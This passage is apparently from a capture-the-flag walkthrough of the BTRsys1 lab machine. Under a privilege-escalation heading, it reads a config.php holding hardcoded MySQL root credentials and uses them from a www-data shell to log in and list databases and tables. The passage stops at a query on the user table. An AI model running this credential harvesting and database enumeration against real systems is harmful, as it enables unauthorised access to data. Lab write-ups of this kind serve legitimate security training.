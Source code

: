 ## 4.Privilege Escalation

Since nikto found `config.php` file, go to `/var/www/html` and cat the content of config.php :

```text
$ cat config.php
<?php
/////////////////////////////////////////////////////////////////////////////////////////
$con=mysqli_connect("localhost","root","toor","deneme");
if (mysqli_connect_errno())
  {
  echo "Mysql Bağlantı hatası!: " . mysqli_connect_error();
  }
/////////////////////////////////////////////////////////////////////////////////////////
?>
```

you will see the username and password for mysql, now try to login to database from here (first stablize the shell) :

```bash
www-data@BTRsys1:/$ mysql -u root -h localhost -p
mysql -u root -h localhost -p
Enter password: toor

Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 653
Server version: 5.5.55-0ubuntu0.14.04.1 (Ubuntu)

Copyright (c) 2000, 2017, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> show databases;
show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| deneme             |
| mysql              |
| performance_schema |
+--------------------+
4 rows in set (0.00 sec)

mysql> use deneme
use deneme
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
show tables;
+------------------+
| Tables_in_deneme |
+------------------+
| user             |
+------------------+
1 row in set (0.00 sec)

mysql> select * from user;
```